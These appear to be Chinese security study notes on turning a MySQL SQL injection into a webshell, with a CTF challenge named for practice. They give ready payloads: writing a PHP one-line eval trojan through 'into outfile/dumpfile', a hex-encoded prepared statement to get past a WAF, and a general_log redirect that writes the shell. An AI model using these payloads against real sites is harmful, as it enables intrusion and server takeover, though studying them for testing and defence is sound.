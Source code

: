 **举例：**



## sql注入写文件用的函数？(!!)
**suctf-2018 Multi Sql**可练习

1.**union select写入**

- select '***' into outfile '路径'
- select '***' into dumpfile '路径'

eg：`select '一句话木马' into dumpfile 'd:\\wwwroot\baidu.com\nvhack.php';`

注：若waf将select过滤了，可以考虑使用sql预定义语句。

`
set @num=hex编码后的select语句
prepare sql from @num;		
execute sql;
`

2.**分隔符写入**

`?id=1 INTO OUTFILE '物理路径' lines/fields/columns terminated by  （一句话hex编码）#`

注意：一句话木马需要用''括起来，并使用hex先编码

3.**利用log写入**

新版本的MySQL设置了导出文件的路径，很难在获取Webshell过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell。

具体权限要求：数据库用户需具备Super和File服务器权限、获取物理路径。

```
show variables like '%general%';                        #查看配置
set global general_log = on;                            #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php';    #设置日志目录为shell地址
select '<?php eval($_GET/[g/]);?>'                     #写入shell
set global general_log=off;                             #关闭general log模式
```


## sql注入写shell的条件？(!!)(利用sql注入拿到webshell)
- **secure_file_priv 支持数据导入导出**
  - 如果secure_file_priv=NULL，MySQL服务会禁止导入和导出操作。
  - 通过命令查看secure-file-priv`的当前值，确认是否允许导入导出以及导出文件路径。
  - show variables like '%secure_file_priv%';
  - select count(file_priv) from mysql.user
- 当前数据库用户权限，用户拥有FILE权限，即在写入文件的路径中有写入权限
- web目录的物理路径(绝对路径)
  - 一般可以通过phpinfo函数，测试页面，及报错信息，搜素引擎，目录爆破的方式来获取网站的真实物理路径

## 如何判断不同的数据库

